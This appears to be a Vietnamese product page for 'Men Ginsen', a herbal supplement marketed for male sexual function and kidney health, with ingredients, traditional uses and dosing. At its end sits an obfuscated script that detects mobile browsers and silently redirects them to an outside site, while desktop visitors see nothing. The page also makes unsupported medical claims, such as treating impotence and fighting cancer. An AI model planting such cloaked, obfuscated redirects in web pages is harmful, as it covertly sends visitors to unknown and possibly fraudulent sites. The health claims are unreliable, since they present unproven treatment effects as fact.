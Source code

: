 Trang chủ > Sản phẩm > Men Ginsen
---------------------------------

Sản phẩm này không phải là thuốc, không có tác dụng thay thế thuốc

Men Ginsen được biết đến khá phổ biến với công dụng hỗ trợ điều trị bổ thận, tăng cường sinh lý nam giới, tăng cường sức khỏe.
------------------------------------------------------------------------------------------------------------------------------

1 Thành phần
- Thành phần có trong Men Ginsen:

+ Ngũ Vị Tử - 280mg, Xa tiền tử - 280mg
+ Tỏa dương - 280mg
+ Dâm dương hoắc - 265mg
+ Câu kỷ tử - 265mg
+ Thỏ ty tử - 265mg
+ Nhục thung dung - 210mg
+ Phúc bồn tử - 170mg
+ Chiết xuất Hồng sâm (Korean Red Ginseng) - 8mg.

Dạng bào chế: Viên nén bao phim.

2 Tác dụng - Chỉ định của Men Ginsen
2.1 Tác dụng của Men Ginsen
Trong Men Ginsen có thành phần là các dược liệu có tác dụng trong chăm sóc sức khỏe như:

+ Ngũ vị tử có vị chua, mặn, tính ấm, đi vào kinh phế, thận, được sử dụng ho lâu ngày, suyễn, giảm tình trạng tiêu chảy, đái dầm, đánh trống ngực, di tinh, hoạt tinh, nóng trong, …
+ Xa tiền tử còn được biết đến là phần hạt của cây Mã Đề. Bộ phận này có vị ngọt, tính mát cho tác dụng vào bàng quang, tiểu trường, phế, thận, can. Xa tiền tử được sử dụng nhiều trong các bài thuốc chữa ho có đờm, viêm phế quản do lạnh, bí tiểu, tiểu tiện ra máu, sỏi tiết niệu, chảy máu cam,...
+ Tỏa dương được sử dụng nhiều trong các bài thuốc y học cổ truyền dùng để bổ thận dương, chữa liệt dương, ích tinh huyết, khí hư ra nhiều, thận hư, táo bón ở người già,..
+ Dâm Dương Hoắc được dùng để điều trị liệt dương, thận hư, di tinh, phụ nữ vô sinh, đau nhức xương khớp do phong thấp, đau răng, chứng giảm bạch cầu,...
+ Thỏ Ty Tử hay có tên khác là hạt tơ hồng  được dùng để điều trị cứng động mạch vành, suy nhược thần kinh, đau lưng, bí tiểu. Với nam giới. thỏ ty tử có tác dụng chữa bệnh liệt dương, di tinh, mắt mờ, ù tai, mỏi gối.
+ Câu Kỷ Tử có tác dụng vào các kinh thận, can, phế được dùng để điều trị tình trạng đau thắt lưng, đau gối, chóng mặt, ù tai, tình trạng nóng trong gây bệnh tiểu đường, huyết hư, mờ mắt. 
+ Nhục Thung Dung là dược liệu được dùng để tác dụng vào các kinh thận và đại trường điều trị các bệnh như liệt dương, di tinh, tình trạng đau thắt lưng và đầu gối, người mệt mỏi không có lực, khó thục thai, bệnh táo bón ở người lớn tuổi và huyết hư không đủ tán dịch.
+ Phúc bồn tử có chứa nhiều chất dinh dưỡng có lợi cho cơ thể như chất đạm, chất báo, chất xơ, các hợp chất có lợi cho cơ thể. Phúc bồn tử có nhiều công dụng do khả năng chống oxi hóa, chống ung thư, chống nấm, hỗ trợ giảm đau, hạ đường huyế, chống xuất huyết,...

2.2 Chỉ định của Men Ginsen
Sản phẩm Men Ginsen được sử dụng vào cho đối tượng nam giới nằm trong các trường hợp sau:

+ Người cần tăng cường sinh lý năm, cần tăng cường sức khỏe.
+ Người bị suy giảm chức năng thận gây tiểu đêm nhiều lần.
+ Nam giới bị đau lưng, mỏi gối, rụng tóc, mãn dục sớm, giảm ham muốn tình dục.
+ Nam giới bị rối loạn cương dương, rối loạn xuất tinh sớm,...

3.1 Liều dùng của Men Ginsen
Để sản phẩm đạt hiệu quả tốt nhất, nên sử dụng 2 viên/ lần x 2 lần/ngày và dùng liên tục trong 3-6 tháng.

3.2 Cách sử dụng Men Ginsen hiệu quả nhất
Sản phẩm Men Ginsen được dùng theo đường uống và nên dùng sau khi ăn 30 phút.

Sản phẩm này không phải là thuốc, không có tác dụng thay thế thuốc
------------------------------------------------------------------

Sản xuất bởi: CÔNG TY TNHH THẢO DƯỢC GINSEN

Địa chỉ: Số 30, ngõ 28A Hạ Đình, p Thanh Xuân Trung, Q Thanh Xuân, Hà Nội

SĐT: 0869123987

Email: menginsen@gmail.com
--------------------------
GIẤY PHÉP KINH DOANH: 

Giấy phép kinh doanh số: 5400451038

Ngày cấp: 26/05/2014

Ngày hoạt động: 26/05/2014

<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.verrygood.click/sinhly2",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>


